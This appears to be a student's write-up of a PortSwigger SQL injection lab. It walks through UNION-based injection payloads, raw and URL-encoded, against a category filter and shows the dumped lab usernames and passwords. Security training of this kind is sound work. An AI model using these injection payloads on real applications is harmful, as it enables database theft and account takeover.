




# SQL injection UNION attack, retrieving multiple values in a single column

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

___
**NOTE:** => Retrieving multiple values within a single column
You can easily retrieve multiple values together within this single column by concatenating the values together, ideally including a suitable separator to let you distinguish the combined values. For example, on Oracle you could submit the input:
`' UNION SELECT username || '~' || password FROM users--`

step 1




step 2

`' UNION SELECT username || '~' || password FROM users--`
URL Encoded
`'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`
1st payload
`/filter?category=Lifestyle'+UNION+SELECT+username+||+'~'+||+password+FROM+users--`



step 3

`' UNION SELECT NULL,username || '~' || password FROM users--`
`'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`
final payload
`/filter?category=Lifestyle'+UNION+SELECT+NULL,username+||+'~'+||+password+FROM+users--`



step 4

```html
<tr>
	<th>administrator~i5dmpumi3gj0f9j6u0m9</th>
</tr>
<tr>
	<th>carlos~nkvfe8sien71r8lq6hz0</th>
</tr>
<tr>
	<th>wiener~8bhjp9xprgbywgaf4cy6</th>
</tr>
```

